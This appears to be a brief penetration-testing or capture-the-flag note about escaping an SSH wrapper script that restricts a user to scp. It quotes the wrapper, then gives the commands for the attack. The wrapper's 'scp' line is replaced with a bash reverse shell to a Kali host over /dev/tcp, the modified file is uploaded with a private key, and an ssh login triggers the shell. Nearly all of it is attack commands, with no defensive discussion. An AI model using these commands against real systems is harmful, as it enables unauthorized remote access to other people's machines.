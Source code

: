 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Overwrite files on target (sshd_config)

Source code retrieved from target:

```
#!/bin/bash

case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "ACCESS DENIED."
    scp
    ;;
esac
```

Notice "scp" is just a system command, so let's replace that line with a reverse shell:

```bash - kali
bash -i >& /dev/tcp/$KALI/443 0>&1
```

```bash - kali
scp -i id_rsa ../scp_wrapper.sh $USER@$TARGET:/home/$USER
```

```bash - kali
ssh -i id_rsa $USER@$TARGET
```
